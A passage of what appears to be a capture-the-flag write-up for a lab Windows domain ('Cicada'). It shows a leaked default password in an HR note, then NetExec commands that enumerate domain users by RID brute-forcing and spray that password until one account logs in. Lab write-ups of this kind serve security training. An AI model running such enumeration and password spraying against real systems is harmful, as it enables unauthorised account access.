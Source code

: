 The file's contents contain a password:
```text
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

### User Enumeration

Used NetExec to enumerate domain users:
```bash
❯ nxc smb cicada.htb -u 'anonymous' -p '' --rid-brute
```

Discovered several users including:
- john.smoulder
- sarah.dantelia
- michael.wrightson
- david.orelious
- emily.oscars

### Password Testing

Added these users to `users.txt` and tested the newly found password against the enumerated users:
```bash
❯ nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```
